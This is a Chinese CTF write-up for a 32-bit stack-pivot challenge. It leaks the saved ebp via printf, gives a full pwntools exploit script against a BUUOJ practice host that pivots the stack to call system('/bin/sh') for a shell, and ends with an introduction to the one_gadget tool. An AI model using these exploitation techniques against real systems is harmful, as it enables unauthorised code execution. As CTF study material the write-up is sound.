 在vul函数内部有两次输入，但是溢出长度只有8（32位内是两个偏移刚好覆盖ebp和ret），然后利用工具可以发现文件内部有`leave ret`，刚好构成了栈迁移条件，我们可以把栈迁移之后执行的地方放在s上面，然后去执行这个s地址。发现有printf可以利用'\0'截断的特点泄露出ebp内部储存的值，也就是旧的ebp（main的ebp）。利用他们之间的偏移量去计算s的地址，确定栈迁移地址。然后构建完整攻击链。

![pERMEt0.png](https://s21.ax1x.com/2025/04/11/pERMEt0.png)

偏移量进入到函数内部去查看stack，可以看见ebp存的值就是main的ebp而这个值和rbp差了0x38。

![pERMVhV.png](https://s21.ax1x.com/2025/04/11/pERMVhV.png)]

![pERMepT.png](https://s21.ax1x.com/2025/04/11/pERMepT.png)

由于第二次利用`pop eip`，esp会下移，也就是说接下来的执行流是在一个偏移量后，所以我们把system放在aaaa后面。

exp：

```python
from pwn import *

ip = 'node5.buuoj.cn'
port = 29625
io=remote(ip,port)
context(log_level='debug', os='linux', arch='amd64')

io.recv()
pay = b'a'*0x24 + b'bbbb'
io.send(pay)
io.recvuntil(b'bbbb')

rbp = u32(io.recv(4))
print(hex(rbp))
s_addr = rbp-0x38
leave = 0x080484b8 # leave ; ret
system = 0x08048400

payload = b'aaaa' + p32(system) + p32(0) + p32(s_addr + 0x10) + b'bin/sh\x00'
payload = payload.ljust(0x28,b'a')

payload += p32(s_addr)
payload += p32(leave)
io.sendline(payload)

io.interactive()  
```

## one_gadget:

### 原理：

one gadget是libc（动态链接库）中存在的一些执行execve("/bin/sh", NULL, NULL)的片段，这些片段是开发人员留下来的。

 `one_gadget` 是在 CTF（Capture The Flag，网络安全技术竞赛）二进制漏洞利用、渗透测试等领域中一个非常实用的工具，主要用于在利用 Linux 系统下的漏洞时快速找到合适的 `execve("/bin/sh", NULL, NULL)` 调用链，也就是能够直接获取 shell 的关键代码片段。  
